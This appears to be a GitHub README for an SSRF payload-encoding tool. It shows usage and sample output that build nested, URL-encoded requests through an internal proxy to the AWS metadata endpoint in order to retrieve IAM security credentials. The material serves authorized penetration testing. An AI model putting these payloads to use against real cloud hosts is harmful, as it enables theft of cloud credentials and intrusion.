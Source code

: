 # SSRF URL Encoder
`ssrf-url-encoder` is a Python-based utility designed to construct URL-encoded payloads for SSRF exploitation. It allows users to single encode, recursively decode, and construct complex SSRF payloads with custom proxy endpoints, HTTP methods, and headers.

## Features
- Construct SSRF payloads with custom proxy endpoints.
- Single encode or recursively decode URLs.
- Embed HTTP methods and headers into the payload structure.
- Save encoded payloads to a file for reuse.
- Verbose mode for step-by-step output.

## Usage
```bash
python3 ssrf-url-encoder.py --target <TARGET_URL> --proxy <PROXY_URL> [--method <METHOD_KEY=VALUE>] [--headers <HEADERS_KEY=VALUE>] [--single] [--decode] [--output <OUTPUT_FILE>] [--verbose]
```

## Arguments:
- `--target` (required): Target URL to encode or decode.
- `--proxy`: Proxy endpoint with parameter key, e.g., `?url=` or `?target=`.
- `--method`: Optional method parameter as key=value, e.g., `method=GET`
                     or `method=PUT`.
- `--headers`: Optional headers parameter as key=value, e.g.,
                     `headers=X-aws-ec2-metadata-token-ttl-seconds=21600`.
- `--single`: Single encode the target URL only.
- `--decode`: Recursively decode the target URL.
- `--output`: Save the encoded or decoded payload to a file.
- `--verbose`: Display step-by-step output for debugging.

## Output Examples
**1. Constructing SSRF Payload with Method and Headers**
```bash
python3 ssrf-url-encoder.py --target http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role --proxy 'http://127.0.0.1:10000/example-api-proxy/?url=' --method method=GET --headers 'headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}' --verbose --output encoded_payload.txt      
[+] Payload saved to: encoded_payload.txt
[INFO] Target URL encoded once: http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fexample-role
[INFO] Proxy URL constructed: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
[INFO] Final single encoded payload: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```
```
cat encoded_payload.txt 
http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```

**2. Recursive Decoding of URL**
```bash
python3 ssrf-url-encoder.py --target http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D --decode
http://127.0.0.1:10000/example-api-proxy/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role&method=GET&headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}
```

**3. Single Encode a URL**
```bash
--target http://169.254.169.254/latest/api/token --single
http%3A%2F%2F169.254.169.254%2Flatest%2Fapi%2Ftoken
```

## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.

## Disclaimer
Use responsibly. This tool is intended for red teamers, security auditors, and penetration testers with proper authorization.
